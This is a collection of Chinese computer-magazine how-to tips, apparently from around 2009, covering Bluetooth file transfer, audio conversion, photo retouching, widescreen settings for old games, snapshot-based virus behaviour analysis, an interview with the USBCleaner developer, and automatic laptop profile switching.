现在主流手机都自带蓝牙功能，而蓝牙也成为主流笔记本电脑的标配，即使电脑没有自带蓝牙功能，单独购买一块蓝牙适配器即可解决问题。不过，虽说蓝牙传输数据特别方便，但每次传文件时都是一个一个地传，传一次设置一次相当麻烦。不过，只要有个蓝牙管理器——IVT BlueSoleil就好办了。

第一步：从http://work.newhua.com/cfan/200918/lanya.rar下载该工具，将其安装到系统中，重新启动系统后它会自动运行在系统托盘区。假如没有自动启动蓝牙功能，只要右击托盘区程序图标并选择'启动蓝牙'即可，双击程序图标并在打开的窗口中单击'搜索设备'，开启手机上的蓝牙功能并将其置入可查找状态，接下来按照屏幕提示对电脑蓝牙适配器及手机进行配对。

第二步：配对成功后会在列表中看到自己的手机设备，日后要想向手机发送文件，只要双击自己的手机图标，在打开的窗口中再右击'蓝牙信息交换'并选择'发送对象'，接下来只要选择要发送给手机的文件即可进行发送了。

小提示：若经常需要向手机发送文件，可以直接右击'蓝牙信息交换'图标并选择'创建快捷方式到桌面'，以后就可以直接在桌面上操作文件传输了。另外，IVT还能在电脑上通过蓝牙看到手机的通讯录（支持的手机型号有限），还能把手机当鼠标用（支持的手机型号有限）。

### 桥梁二：电脑与手机之间也可以千里传音

手头没有现成的数据线，电脑中又没有蓝牙，一张重要的图片想要放到手机中，怎么办呢？这时就可以通过飞信的彩信功能来搞定。

在最新版飞信主窗口中单击'彩信'标签，单击'我要编辑彩信'按钮，在列表中选择'我自己'，打开彩信编辑窗口，单击'上传图片'按钮将图片文件上传上来（图片不能大于2M），接下来再使用取景框截取图片中的重点部分，最后单击'发送彩信'按钮即可。

小提示：发送彩信时将会直接从发送方手机中扣取0.3元/条的费用，接收方免收。

## 音乐为何刻不进光盘

我要把两首歌曲刻录成一张音频CD，在打开NERO后却出现了错误提示：'无法将一个或多个文件添加到编辑中。这些文件可能需要安装专用的插件才能添加。' 百般尝试后最后找到原因，原来自己的音频文件码率过高，超过了普通MP3的码率（一般最高为320kbps），要刻录就要先转换下了，千千静听和酷狗都可以办到！

在程序菜单找到酷狗的'音乐格式转换'，单击'添加文件'将需要转换的歌曲文件添加进来，然后在编码器中，选中'MP3编码器（Lame v3.97）'项，质量后默认是'44100Hz，Mode：stereo，比特率：128Kbps，质量（CBR）：普通'。如果觉得比特率128Kbps不合适，我们可以在单击'质量'后的'配置'，选择喜欢的比特率（值越高，文件越大），指定输出目录，单击'确定→开始转换'。最后用转换后的文件进行刻录，就没有阻碍了。

## 管理好内存 兔子让系统再提速

小蔡新买了一台电脑，装机时他选择了4GB内存。装机店老板王明告诉他，除了内存本身的容量足够大之外，合理地管理、使用好内存也可以让系统跑得更快。这时不妨装一个超级兔子，其中的两个内存管理工具可以说是相当实用的帮手。

### 内存变磁盘 加速没商量

大家都知道，硬盘是靠磁头在磁盘上读取数据的，速度比内存要慢很多，分出一部分内存来充当临时文件读写的硬盘，速度自然提升了。

### 自动整理 加速无声

系统的内存不管有多大，总是会用完的。及时释放内存就是很好的策略了。不过Windows默认的释放内存机制太不先进了，现在要给它加速，启用超级兔子'工具'里的'内存整理'来行动吧！

### 别拿我的电脑玩游戏，我的文件也不许动

电脑在宿舍开着，一会回来还要用，可不能让别人用自己的电脑玩游戏，修改文件，有情况时屏幕最好能立即锁定，使用NB自动关机程序就可以实现。

打开NB自动关机工具，选择'监视文件'，然后选择游戏和个人文件所在的目录，如果游戏和个人文件不在一起就再打开一个NB自动关机工具监视，然后在'符合条件后→挂机锁屏'最后在弹出的窗口中输入开锁密码，点击'确定→开始监视'。

## 两张照片找不同，病毒行为全曝光

很多病毒感染系统后会自行在硬盘中胡乱添加文件、在注册表中随意修改键值项。但是不同的病毒手法不一样，如果是已知病毒，常用的杀毒软件就能将其制服。但平时经常还会遇到未知病毒，杀毒软件无法查杀。这种情况下，就需要想方设法掌握病毒的动作、行径，对症下药！

## 一举一动可明察秋毫

要想查看病毒的一举一动，只要借助InstallRite就可以达到目的了：

第一步：从http://work.newhua.com/cfan/200921/bdfx.rar下载该软件，解压后直接运行。在系统正常状态下先建立快照。单击主窗口中的‘为你的PC手动创建一个快照’，这样就可以将当前系统的状态保存下来。

第二步：在运行了可疑程序或是病毒后，再单击‘分析在最近一次快照后做出的改变’，软件便会开始分析，将系统所做的各种改动（例如添加、删除文件，修改注册表等行为）记录下来，最后设置一个名称将分析结果保存起来，最后可以通过运行软件包中的InstallWatch小工具来查看具体的改动细节。具体展开每一项，可以清楚地看到病毒具体添加的每个文件，删除的每个注册表项或是修改了哪些文件。

## 对症下药 自制专杀工具

如果杀毒软件还不能清杀这个病毒，那么我们可以手工制作专杀工具了。可不要感觉这是在吹牛，按照下面步骤，你也可以制作。其实原理很简单，根据上述方法得到的病毒活动细节，病毒的所有动作，我们只要将其还原即可。

第一步：运行‘剑盟自定义专杀工具’（下载地址：http://work.newhua.com/cfan/200921/bdzs.rar），从‘结束进程’到‘替换文件’这个顺序将InstallWatch监测到的信息一一添加进来即可。比如，监测到病毒添加了文件C:\Documents and Settings\Administrator\Local Settings\Temp\PerfLib_Perfdata_5c8.dat，那现在的逆向操作就是删除该文件。那只要在‘剑盟自定义专杀工具’中选择‘删除文件’，打开InstallWatch导出的列表将病毒所有新增的文件详细路径添加进来即可。

第二步：按照类似的方法，参考InstallWatch监测到的病毒的所有操作，并按照逆向操作的思路将改动项添加进来即可。最后单击‘开始处理’按钮即可。

(文/呆瓜)

## 不订电视报，节目也知道

以前每年都要花费一笔资金用在订阅电视报上。现在都网络年代了，不订电视报，简单几招也能知道大部分电视台的节目预告。

### 招数1：所有频道全知道

节目预告其实不用东奔西走，电视台本身就有。通过这个固定链接http://www.cctv.com/download/showtime.zip下载预告文件，打开后就可以得到包括地方频道、境外频道、数字频道、央视频道在内的100多个频道的本周节目单。这么多频道，够多了吧？每个频道为一个文本文件，列出了从周一到周日各个时段的节目清单。

### 招数2：只看我的节目

也许你关心的频道就那么几个，这样的用户可以用‘每周电视节目预告’（下载地址：http://work.newhua.com/cfan/200921/jmyg.rar）来定制频道。

软件运行后，打开任务栏中‘信息’窗口，然后依次单击‘确定→是’，弹出‘电视台设置’窗口，该窗口中列举了750个候选频道。勾选自己所关心的频道后单击‘保存’按钮，返回到软件主界面。再从‘请选择电视台’下勾选需要节目清单的电视台频道，单击左上角的‘更新节目’按钮开始下载节目。完成后，选中某个频道，即可在右侧窗口中查看到从周一到周日各个时间段的节目清单。依次单击‘设置→生成TXT数据’，可把选中频道的节目生成一个TXT文件保存起来。

也许你只关心某个频道中的固定节目，比如只关心央视5台的现场直播，如何更方便地查看呢？先更新央视5台节目，然后单击‘查找节目’按钮，弹出‘节目搜索’对话框，在‘要搜索的节目’中输入节目名称，‘时间范围’内指定是当天还是当周。最后单击‘搜索’按钮即可得到指定节目的播放时间，单击‘导出’可以进行保存。

(江苏/曹春华)

## 假期归来宅半天，问题照片迭迭摄影展

国庆长假回来，同事们争先恐后地分享自己的照片。领导顺势组织了一次国庆摄影展。在大饱眼福的同时，小王的参展照片让众人刮目相看。小王本是摄像菜鸟，这次的照片却相当专业。这个疑案在八卦队长小李的调查下水落石出，原来小王那天在家里宅了半天，将一张问题照片处理成了专业照片。小李还将这个过程详细打探了出来，一探究竟吧！

## 王侯将相，宁有种乎？问题照片全扫清

小王可不是什么图片处理高手，但这次他立志要‘出人头地’，选择了一张自认为最满意的照片，仔细观察，发现照片的问题确实不少，没办法，找来光影魔术手（下载地址：http://www.neoimaging.cn/），硬着头皮处理吧！

### 基本修正 不当菜鸟

用光影魔术手打开照片。首先发现左侧有不相关物体的边角，剪掉它。单击‘剪切’进入编辑窗口，先框选整个画面。为了做得细致，依次单击‘查看→100%显示’，从上往下依次看，找到要剪掉的最右侧，拖动选框的左边将其排除，下端同样如此剪切。单击‘确定’完成。

第二步：去斑

放大后会发现在照片的背面有电线，这个要去掉。方法和处理人像时，去除脸部的斑点道理一样。依次单击‘效果→更多人像处理→去红眼/去斑’。根据杂物的大小，调整光标半径。在电线上涂抹即可。小王发现效果不好，这是‘力量’太小，将值调高到300即可（具体数值可尝试性设置），碰到细节的地方，将光标半径调小进行操作，满意后单击‘确定’完成。

第三步：旋转

这时，小王发现，自己拍的华表歪了。这个很囧，赶紧弥补。依次单击‘图像→自由旋转’。这时，鼠标移动在图像上就显示虚线，这个是调整的参考。按照垂直线的提示，从最上沿虚线划到下面，会出现一个灰色的线，单击‘预览’，图像就自动变正了。效果满意后单击‘确定’，原图就按预览效果修正了。如此调整后，软件边框会按照默认的白色填充空白。现在再按第一步的方法将白色剪掉就好了。

小编物语：
这里处理的是建筑物，用的操作和处理人像是不一样的，校正、去斑、剪切。如果需要处理红眼，只需在‘去斑’操作时将工具栏切换到‘去红眼’即可。

### 外伤除尽 内伤凸现

现在，照片存在的一些初级问题没有了，小王本以为好了，发给懂摄像的朋友一看，问题还是一大堆。光线不对，天空颜色也不好，一下子让小王恍然大悟，原来照片的处理才刚刚开始。

### 第一步：纠正曝光

对比好的照片，会发现这张照片曝光有问题。这是普通照片最常见的问题了，人像照片里也有此类问题，常见的人像发黑、过白都属于此类问题。单击右侧的基本操作，选择自动曝光，再单击‘自动白平衡’。会发现照片比原来舒服多了，从光线上有了重点。

### 第二步：校正颜色

现在的照片，颜色要差一些，下面就从颜色上着手调整。依次单击‘查看→选项→反转片’。这里因为照片是建筑物，所以勾选‘真实颜色’。如果是人像可以选择‘素淡人像’，风景则选‘艳丽颜色’，单击‘确定’完成对反转片的修改。单击‘效果→反转片效果’，会发现颜色变得重了，但主体华表也变重了，不要担心，勾选‘人像优化’，软件就自动识别前景色，将华表的颜色变白了。现在来将图片保存一下。

小提示：
对于照片来说，另一个问题就是模糊了，处理它的方法就是锐化了，可以依次单击‘查看→诊断中心’，选择‘雾气蒙蒙’，进行操作即可。

### 先天不足，后天培养，专业照片“点”出来

上面我们已经处理成了一个合格的普通照片。小王处理完，自己的信心大增，决定更上一层楼，处理出专业效果来。照片处理到现在最大的问题就是天空的颜色了。现在就做最后一步，将天空变成蔚蓝。

使用我行我速（下载地址：http://work.newhua.com/cfan/200920/sxws.rar），依次单击‘获取相片→我的电脑’，打开前面保存的文件，依次单击‘选择范围→按色彩’，将‘相似度’调整到第四个刻度附近，‘柔化边缘’选择最后一个最弱的。然后用魔棒点击照片的天空部分，这样就会获取一个连续的色彩范围。

再依次单击‘效果→摄影’，单击右侧的‘渐变滤镜’。在弹出对话框中，首先单击‘方向’加号按钮激活角度，然后用鼠标拖动红点，按顺时针方向到达11度的位置。拖动左上方的红点，使得选取范围的颜色不至于太深，单击‘确定’，蓝天效果做好了。小王不满意，又多处理了几次。临近天黑，照片终于完成，这才有了摄影展上同事的称赞。因为照片打印出来，修改的痕迹不会看出来的，当然，这只是在非正式摄影中卖弄下了。

小提示：
这一步我们还可以利用光影魔术手替换背景的天空，当然这样的话因为选择的缘故，要求很精密。在光影魔术手中打开照片，单击‘抠图’，然后用鼠标左键画线画出前景色，用右键画线选出背景色，范围指定后，单击‘替换背景’按钮，选择一个合适的天空背景图片，就完成了替换。这里要注意的是当作新背景的天空图片，像素大小要与处理的图片相同，才能作为背景。这种方法因为下方国旗的出现，对范围造成了很大的困难，如果只截取上面部分的话，效果非常好。

(湖南/宝贝浩宇)

## 梅开二度 老游戏完美上宽屏

宽屏游戏大行其道，不过对那些经典游戏来说，除少数设计比较灵活的游戏（如命令与征服、叛国者、地球帝国），其他游戏压根就没有提供宽屏分辨率供我们选择。怎么办？难道大屏显示器想玩红警2就得接受最高分辨率只有1024×768的粗糙画质？想玩魔兽3就得忍受那模糊的文字吗？答案当然是否定的。通过更改游戏的设置文件或更改注册表，不少经典游戏照样能轻松用上宽屏分辨率。

### 自身找原因 更改游戏设置文件

大部分游戏的设置以文件的形式保存在游戏的安装目录中，也有一些存放在“我的文档”对应的子目录中。文件的扩展名一般为*.ini，我们可以通过修改这些文件达到轻松用上宽屏分辨率的目的。下面以经典的即时战略游戏红警2为例，简单介绍一下修改的方法。

第一步：在游戏的安装目录中找到游戏设置文件ra2.ini，打开并找到如下显示设置内容：
[Video]
ScreenWidth=1024
ScreenHeight=768
StretchMovies=no

第二步：一般来说，19英寸宽屏的最佳分辨率为1440×900，20英寸~22英寸宽屏的最佳分辨率一般为1680×1050，23英寸及以上则一般可达到全高清分辨率1920×1080或1920×1200。现在根据自己的显示器尺寸对ScreenWidth、ScreenHeight的值作相应的更改（如24英寸宽屏可改为ScreenWidth=1920, ScreenHeight=1080），保存后，问题就解决了。

小提示：
也有少部分游戏的配置文件采用的是其他扩展名（如仙剑奇侠传四的配置文件为config.cfg）。这些配置文件可以用金山游侠V等工具修改，但修改过程较麻烦，且很多游戏改后效果不太理想。笔者将仙剑四的分辨率通过金山游侠V改成了1920×1080，虽然画质变得非常细腻，但由于游戏本身设计的问题，按钮图样及对应的鼠标响应区域不匹配，操作极不方便，只好作罢。

如果上述方法都不适合你，那么试试老外的自动工具Uniws吧（下载地址：http://work.newhua.com/cfan/200921/uniws.zip）。如果软件压缩包里列的软件支持的游戏名单里包含你要改的游戏，那么直接运行软件，单击find it for me（搜索游戏）或直接切换到目录，然后在下面分别填入你屏幕分辨率的宽和高，单击Patch（修补）就修改好了游戏。

### 更改注册表

少数游戏的游戏设置存放在注册表中，我们可以通过修改注册表来达到更改游戏分辨率的目的。下面以经典的即时战略大作《魔兽争霸III》为例，简介相应的修改方法：打开“注册表编辑器”，依次展开[HKEY_CURRENT_USER\Software\Blizzard Entertainment\Warcraft III\Video]分支，找到resheight、reswidth两项，将其值更改为对应的十进制值（以22英寸为例，点选十进制，将resheight的值更改为1050，将reswidth的值更改为1680）。再运行游戏，画面就细致多了。

读者朋友如果还钟情其他经典游戏的话，不妨按照上述方法提供的思路更改它的显示设置。说一定会有更多意外的惊喜哦。当然，不是所有的经典游戏都能用上宽屏分辨率（如尤里的复仇、三角洲特种部队3、大富翁7、抢滩登陆2002等经笔者测试更改不成功）。祝你好运！

(江西/李春蕾)

### 其他经典游戏的修改方法（以更改为22寸宽屏最佳分辨率为例）。

| 游戏名称 | 配置文件存放路径 | 配置文件名称 | 修改后的设置内容 |
| :--- | :--- | :--- | :--- |
| 国家的崛起 | 安装目录 | Rise2.ini | [RISE OF NATIONS] Windowed Width=1680 Windowed Height=1050 |
| 将军和绝命时刻 | “我的文档”对应子目录 | Options.ini | Resolution = 1680 1050 (如找不到左边的字段则另起一行完整输入此行内容即可) |
| 仙剑奇侠传3 | 安装目录 | config.ini | width=1680 height=1050 |

## 小U盘里故事多 外语精英“驯服”U盘病毒

最近，来到高手坐堂的软件作者逐渐向80后靠拢了。今天，小白就给大家介绍一位我的同龄人，浙江大学外语学院的高材生——陈业权。先别纳闷，人家学的是语言，这计算机语言啊，他也熟。VB用得熟，还能用这“外语”驯服病毒呢？大名鼎鼎的U盘病毒专杀工具USBCleaner就是他写的。

### 陈业权

专业：英语语言文学
毕业时间：2007年
软件作品：LaunchCDKiller、USBCleaner
USBCleaner
开发者：陈业权
开发语言：VB、VC
软件性质：免费软件
支持平台：Windows 2000/XP/2003/Vista

### 无心插柳柳成荫 浙大高材生转业IT

在同龄人中，陈业权绝对是令人羡慕的一类人。2003年，他以优异成绩考入浙江大学，专业也是热门的外语。按照常规的思路，毕业两年后的他应该是一位优秀的外语教师或者是翻译官。但匪夷所思，他工作一段时间后就辞职做起了自由职业者。故事还要从头说起。

2004年的时候，他这位文科生按照学校规定学习了一门VB语言课，从此爱上了电脑。他在逛论坛时得知给杀毒软件公司上报病毒样本会有礼品奖励，就收集起病毒来。起初不懂，就先上网找资料，学习病毒知识。据回忆，他一开始也挺怕的，先把系统和IE等软件的补丁都打全，然后去百度贴吧等网站试探着点那些危险的链接，找到钓鱼或挂马网站，他就分析源代码，研究后再把样本上报给杀毒软件公司。这个过程他也获得了不少奖励，正版序列号、小礼品攒了一大堆。

熟悉了也就更爱研究了。一天，他拿着U盘去打印店打印东西，结果却中毒了，这可惹上行家了。他研究了一天，用VB开发出了专杀工具——LaunchCDkiller。他当时还把这个工具发布在爱好者网 (http://www.cfan.com.cn) 的论坛上，很受欢迎。

后来他就开始专注于收集闪盘方面的病毒，发现这类病毒还是比较多的，就想写一个专门杀这类病毒的工具。2006年2月，USBCleaner的第一个版本发布在他的博客上，火得一塌糊涂。

3年下来，陈业权遇到了不少难题。VB语言在进行一些底层技术处理时不好实现，他就再学VC，实现VB、VC混合编程，优势互补。同时，作为自由职业者，他现在仅仅是收支平衡。软件和论坛的几个广告组成软件带来的全部经济收入，不过，软件还给他带来了好多欣喜。

一天他收到一封网友的邮件，说是USBCleaner解决了她的病毒，然后说了很多感谢的话。后来逢年过节，他总会收到一张电子贺卡，抬头总是杀毒大师……每次收到，他都感觉心里暖暖的，虽然都不知道对方是谁。

### 来自开发者的“三板斧”

#### 清空闪盘使用记录

当USB设备接入Windows时，系统会加以记录，这会留下很多使用痕迹。启动USBCleaner，依次单击“工具及插件→USB设备痕迹清理”，在这里你可以看到近期USB设备的使用日期和使用对象。你可以查看有无别人偷偷在你的电脑上复制东西。项目下面还有FirstWriteTime（首次写数据时间）和LastWriteTime（最后一次写入数据时间）可以大致知道使用的时间。如果不想要，单击“清除所有记录”就可以清空了。

#### USB设备我来卸载

USB设备用完删除时常有些麻烦，直接拔出还不太放心。这时启动软件，依次单击“工具及插件→移动盘卸载”，选择启动USBEjector（也可以在软件目录中直接双击USBEjector文件来启动）。USBEjector将会引导你到查询与处理界面，点击自动处理程序可一键搞定所有被锁文件。如果有未保存的文件，程序也会作出相应提示。需要注意的是，软件不能保存在USB设备中，那样就无法卸载了。

#### 文件夹图标病毒处理

现在文件夹图标病毒出现得越来越多，由于病毒作了精妙的伪装，我们很容易误以为是文件夹而误点。大多数文件夹病毒只感染各盘根目录的文件夹，去掉程序界面遍历子目录的勾选可以大大加快检测的速度，但其他3个选项包括同时检测系统进程、恢复被感染文件夹、启用广谱检测最好勾选。扫描这类病毒时，最好同时插入闪盘，扫描模式选择全盘扫描，这样可以有效减少这类情况复发。

点将台：你喜欢哪款工具软件呢？你想知道它是如何开发的吗？你想让开发者自己揭秘软件的使用秘笈吗？把你的需求告诉给小白吧（发邮件到ruanji@cfan.com.cn）！你指定软件，我来采访，他来揭秘。
(本期点将成功的读者: figo.super)
(本刊记者/白斌)

## 老板眼皮下面，我用飞秋看娱乐新闻

公司规定上班时间不准浏览网页，每次看新闻都得偷偷摸摸，提心吊胆。RSS订阅又不过瘾，用什么办法解决这个问题才行呢？老板们放心让大家使用的局域网工具飞秋就能帮你搞定！信不？下面笔者以浏览腾讯网为例，介绍设置方法。

首先，右键单击飞秋图标，选择“系统设置→详细设置”，进入设置界面后选择“显示设置”，勾选右下方的“自定义论坛链接”的复选框，将“名称”修改为“工作总结”，网址输入你最想看的网址，例如腾讯娱乐：http://ent.qq.com/。单击“确定”。现在，重新启动飞秋，最下面的一个按钮已经变成了“工作总结”。点开以后就是腾讯娱乐了，慢慢浏览吧。不过不要点击其中的链接哦，点击里面的链接就会调用浏览器。老板过来，仅需0.5秒即可切换到好友界面。就算老板看到，也顶多以为是飞秋的广告。

(四川/龙小江)## 笔记本长“脑子” 家里、单位无缝切换

上班、下班，笔记本随身携带，表面是方便了，背地里却惹了不少麻烦。习惯了家里的自在，却常因忘了静音而让QQ消息音响个不停；每次回家，还要为更改网络配置忙活半天……这些麻烦，让我们每天都在浪费时间，如果只花10分钟配置好，让笔记本长个脑子，一切它都自己识别，自动完成，你还等什么呢？你看大家都设置好了。

## 只图方便的上班族

典型代表：公司文秘
困惑：让电脑在上班时间自动静音，下班回家自动开启。上班时桌面要正统，下班就换回个性桌面。
解决方案：一切让时间自动安排

## 摆脱声音困扰

最讨厌的就是系统登录音了，生怕别人不知道你刚来似的，赶紧取消。启动系统控制面板，依次打开“声音、语音和音频设备→更改声音方案”，然后在声音方案中选择“无声”，单击“确定”。解决掉登录音，现在来让系统音量变聪明，上班时自动静音，下班自动开启，工作、娱乐两不误。

- 第一步：下载这个名为“mute.exe”的小工具（下载地址：http://work.newhua.com/cfan/200921/mute.rar）到某一目录，打开控制面板中的“任务计划”并新建一个任务，名称随意设置，设置运行“mute.exe”这个程序，设置执行的时间为“每周工作日”，设置好起始的时间为早上上班时间（例如8:30）；最后再输入当前系统账户的密码。
- 第二步：任务创建后，再右击该任务并选择“属性”，在“任务”选项卡中的“运行”框最后添加“on”（空格+on代表开启静音）。这样设置后，当系统时间到达指定的上班时间后，系统声音便会自动进入静音模式了。
- 第三步：现在要让电脑学会在下班时间自动取消静音，只要再新建一个任务计划，将开始时间设置为下班时间，其他设置方法与上述类似，只是在上面的第三步中需要添加“空格+off”（off代表关闭静音模式）。只要有了这两个任务计划，每天系统就会自动在上班时间将系统设置为静音，下班时又会恢复正常状态了。

> 火速链接：
还可以使用2008年13期《你听你的 别打扰我》中介绍的“四度声音”来自动定制一天24小时的音量。

## 搞定桌面切换

- 第一步：首先选好两张桌面图片放在一个文件夹里，一张纯纯的用在单位用，一张个性的用来回家。然后运行Wallpaper Expert（下载地址：http://work.newhua.com/cfan/200921/zmbh.rar），在文件夹浏览器中选择图片所在的目录，选择好上班和回家所用的桌面壁纸，拖拽到下面的图像浏览器中。以便加入New Collection（新收藏），右键单击选择那个适合在单位用的图片，选择“设置为墙纸”。
- 第二步：依次单击“设置→启动→随系统启动而运行”，并取消对“启动时更换墙纸”的对钩。再依次单击“设置→属性”，选中“更换墙纸”，在“更换顺序”中选择“向后”，在“样式”中根据图片选择居中或拉伸模式，在“自动更换墙纸”中选择“标准时间间隔”，然后取消所有工作日的对钩，以便取消这个功能。选中定时更换，勾选“启用定时更换”，在“平时更换时间”中选择星期一到星期五（可根据自己作息时间调整）。在“使用收藏中的图像”中勾选New Collection（新收藏）。
- 第三步：在下面的“更换时间”，将自己的上下班时间，例如08:30、17:00分别添加进入，单击“对号”按钮完成设置。以后我们在上班的时候，就会自动切换到中规中矩的壁纸，回到家里的时候，就会变成自己喜欢的壁纸，无需人工干预。

> 小提示：
用Wallpaper Expert对壁纸进行调整要注意，在设定上班的时间要延后几分钟，而在设定下班的时间要提前几分钟。因为Wallpaper Expert只在电脑启动的时候才能更换壁纸。

## 物尽其用的IT狂人

典型代表：IT职员 / 客户经理
困惑：上面的声音和桌面问题倒不严重，因为单位网络和家里不同，不是需要代理就是固定IP，每天来回切换。而且希望更智能些，上班和在家开机启动不同的常用软件，打开不同的主页，默认打印机也自动更换。
解决方案：自适应网络环境变化
首先安装ConfigFree（下载地址：http://work.newhua.com/cfan/200921/wlgl.zip），对于非东芝品牌的笔记本电脑，还要再做一步，打开注册表编辑器，定位到[HKEY_LOCAL_MACHINE\SOFTWARE\TOSHIBA\ConfigFree]，将[InstCheck]字符串值从原数字0改成1，然后运行软件。

> 小提示：
Thinkpad也有类似的网络管理软件，Access Connections，不过对比来看，ConfigFree更加轻巧，切换更快。

- 1. 首先来配置单位的网络环境，将本本正常连入单位的网络，单击ConfigFree的“配置文件设置”按钮，单击“添加”，在下一步中选择“指南”，在出现的配置文件指南向导中，在主页中输入上班后打开的主页，例如http://www.cfan.com.cn，检查代理服务器设置是否正确，单击“详细”，勾选“所有协议使用同一代理服务器”，单击“前进”。
- 2. 这里不勾选“抓取拨号连接”，勾选“抓取默认打印机”，选择单位连接的打印机即可，单击“前进”，在设备列表框中选择有线网卡，如果单位是固定IP的话，那么就勾选“使用以下IP地址”，输入单位内部网络管理人员分配给自己的IP地址、子网掩码和网关，自动获取的直接单击两步“前进”。
- 3. 在“配置文件名称”中输入“单位（有线）”，然后实现配置的智能化了，在“切换后执行此程序”，单击浏览，选择好MSN，单击“结束”完成配置，并应用即可。

## 抓取单位无线网络

开启无线网卡，按同样的步骤，抓取无线网络，取个不同的配置文件名称就好了，然后再到达配置界面，勾选“使用此SSID进行自动切换”，然后结束就好了。现在已经有了两个自动配置项，现在开始开启自动切换，首先保证无线和有线都连接正确，单击软件的“配置文件自动切换”，在“网络自动切换”中勾选“自动切换设备”，确定即可。以后拔出有线，电脑就会自动切换到无线中，插入有线即可关掉无线启用有线。

## 配置家庭网络

同理，我们将本本接入家里的网络，然后按配置文件指南向导提示操作，其他与单位配置过程相仿。在这里要注意的是，软件自动识别网络环境，是靠前面的连接无效后，依次尝试方案，对于无线网络可以采用SSID识别，但有线环境就没有参考标准了，如果单位和家里都用自动获取来配置IP的话，那么要把其中之一设置成固定IP，这样切换有线环境时，就可以抛弃连接错误的而选择好的了。在配置家庭网络时，在界面中，自动运行的程序就可以改成娱乐的BT下载软件或是听歌软件了。

> 小提示：
例如北京的网通用户，可以这样设置你的IP：192.168.0.143（最后的143可以为非1且小于255的任何数字，为避免冲突，设置为一个不常用的数字），网关：192.168.0.1，DNS服务器：202.106.196.115，备用DNS服务器：211.100.3.2。具体可以咨询当地网络运营商。

（文/赵乔新）

## 极点五笔“兼职” 会的不只是打字

现在很多常用软件都“不务正业”地兼职了许多其他软件的功能，如果充分利用好这些功能，将会大大方便我们日常的工作与学习。像我们常用的极点五笔，就可以做好多“兼职”。

极点五笔具有“命令直通车”功能，可以通过输入特定的编码来快速启动特定软件，完全兼职了快速启动软件或快捷键。

- 首先开启极点五笔输入法，在状态条上右击鼠标，选择“管理工具→编辑用户词库”（见图1），然后在用户词库的[Text]后的第二行新起一行（不要将新加词条放在第一行位置），以“自定义编码 $X[屏幕提示]软件路径”的格式输入代码（无外引号，下同）。如果需要运行软件后将其激活为当前窗口，则使用$X，不需要激活则使用$x。如果路径中有空格则用“$20”代替。例如，我要用zacb编码来运行金山词霸（为了方便记忆编码可以采用软件的名字，不过软件只接受符合五笔编码规律的自定义编码，所以编码的选择要实验几个），则在用户词库中输入：“zacb $X[运行金山词霸]C:\Powerword$202003\xdict.exe”。单击“存盘”保存好词库。在开启极点五笔输入法的前提下，输入zacb即可快速运行金山词霸。

另外，软件还可以兼职词典功能，在工作中遇到不认识的字，只需要复制需要查询的字或词语，接着点击极点五笔状态栏上的“放大镜”按钮，在打开的“极点查询”界面中已经列出了该字的拼音（见图2），五笔编码以及简单的解释。

> 小提示：
如果你不太会编辑命令，那可以使用命令编辑器（下载地址：http://work.newhua.com/cfan/200922/mlbj.rar）来帮忙，启动后，将你要添加快速启动的软件拖动到命令编辑器窗口上，输入编码，单击“添加”即可在上面生成命令行，直接添加就可以了。

（广东/熊欣）

## 轻松减4GB 在垃圾堆里解救C盘

笔者是个懒惰的人，忽然一天，系统盘空间不足的警告屡次出现，才知道15GB的XP系统盘竟然塞满了，懒人不想重装，就想着如何删掉东西，让C盘恢复到原来的模样，没想到，借助一个工具，好多操作都简单了，轻松减掉4GB。

第1步：安装并运行“魔方”（下载地址：http://www.tweakcube.com/）。单击“系统清理→系统盘瘦身”，分析完毕后，魔方就为你列出了系统盘里可以删除的组件，具体项目我们可以增减，单击下面的“系统瘦身”按钮即可删除这些累赘了。

第2步：上一步减少的并不多，现在肯定纳闷系统盘为何塞满了。单击“磁盘空间分析”按钮，在左侧选中系统盘，单击“分析”按钮，“魔方”会自动将C盘中所有的文件夹进行一次分析并给出文件夹的体积大小报告。单击两次列表中的“大小”让文件按所占空间从大到小排列，状况一目了然（见图1）。从图中可以看出，Windows、Program Files、Documents and Setting、MSOCache是最大累赘，Windows动不得，MSOCache（Office安装文件源）选中后直接单击“删除”。进入Documents and Setting目录，再单击“分析”，发现ALL Users和用户名文件最大，依次进入目录后可以看到TEMP、回收站等文件，依次删除就好了。其他目录，进入后依次分析酌情删除即可。

小提示：
文件夹分析没有后退按钮，切换目录要从左侧列表中重新选择目录，再进行分析。好在分析的时间很快。

第3步：像“我的文档”这样的系统文件夹占用了大量的C盘空间，又不能删除，咋办？单击魔方的“系统设置→系统文件夹”，在列表中选中占用空间大的系统文件夹，通过“修改位置”按钮即可转移了（见图2）。在转移时建议将源文件夹中的文件移动到目标位置，避免以后使用时的麻烦。
经过上面的几步折腾后，已经砍掉了3.8G的“赘肉”。接下来，再通过“系统字体清理”按钮、“注册表清理”按钮、“垃圾文件扫描”按钮逐个清理一遍，又卸载了几个不用的程序，4GB的空间就这样腾出来了。
（浙江/王超）

## 以大小为准绳 看得见的图像压缩

许多软件都具有图像压缩功能，"RIOT"（下载地址：http://work.newhua.com/cfan/200921/riot.rar）这款软件能把图像压缩后的文件大小、压缩率、质量等变成我们可以看得见的一些数据。
依次单击“文件→打开”，载入图像文件，如图所示，左侧窗口显示原始图像，右侧窗口为压缩后的图像预览，向左拖动“品质”滑块可以降低图像品质来压缩图像，在预览窗口下方，可以看到压缩后图像的大小，滑块右侧则显示了图像的压缩比。
一些时候，我们压缩是为了迎合某个网站的大小限制，那就直入主题，单击“压缩大小”，弹出“压缩大小”窗口，在对话框中输入期望得到的图像文件的大小，然后单击“确定”即可。压缩效果满意的话，单击“另存为”进行保存，保存之前，可以指定保存图像文件的格式，可以是JPG、GIF、PNG三种，如果未指定，则为源图像文件格式。

一些常用的图片处理也有类似功能，比如光影魔术手在保存JPG格式图片时可以限制大小，Turbo Photo也有类似功能

（文/春草年年绿）

## 特殊图片 特殊看法

看精彩美图犹如旅游，各地无限风景尽收眼底却不用花力气，因此，看图片成了电脑应用中的一个比较常见的环节，不过，有些情况下，需要看一些特殊的图片，那我们可要掌握特殊看图片的方法哦！

### 网络图片本地看

在本地看图片，有系统自带的图片查看器，或者单独安装更为强大的ACDSee，而现在看美图，多数来自于网络，但传统的看图片工具并不支持看网络图片，这种特殊而又大众化的场合，就需要掌握特殊看的方法了。利用“可牛看图”（下载地址：http://kan.keniu.com/）就可以实现在本地尽览网络图片的梦想了。
